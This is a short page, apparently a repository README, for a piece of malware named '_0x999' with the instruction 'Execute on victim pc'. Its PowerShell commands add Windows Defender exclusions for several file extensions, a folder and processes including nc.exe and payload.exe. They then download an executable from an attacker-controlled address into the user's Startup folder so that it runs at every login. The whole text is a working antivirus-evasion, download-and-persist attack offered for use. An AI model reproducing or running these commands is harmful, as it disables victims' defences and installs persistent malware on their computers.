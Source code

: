 # _0x999
virus
Execute on victim pc
powershell -Command Add-MpPreference -ExclusionExtension ".exe"
powershell -Command Add-MpPreference -ExclusionExtension ".ps1"
powershell -Command Add-MpPreference -ExclusionExtension ".py"
$download_url = "http://192.168.0.13:8080/_0x999.exe"
$local_path = "C:\Users\$env:UserName\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\_0x999.exe"
$WebClient = New-Object System.Net.WebClient
$WebClient.DownloadFile($download_url, $local_path)
exit

scripts

powershell -Command Add-MpPreference -ExclusionPath "C:\tmp"
powershell -Command Add-MpPreference -ExclusionProcess "nc.exe"
powershell -Command Add-MpPreference -ExclusionProcess "_0x999.exe"
powershell -Command Add-MpPreference -ExclusionProcess "payload.exe"
powershell -Command Add-MpPreference -ExclusionExtension ".java"
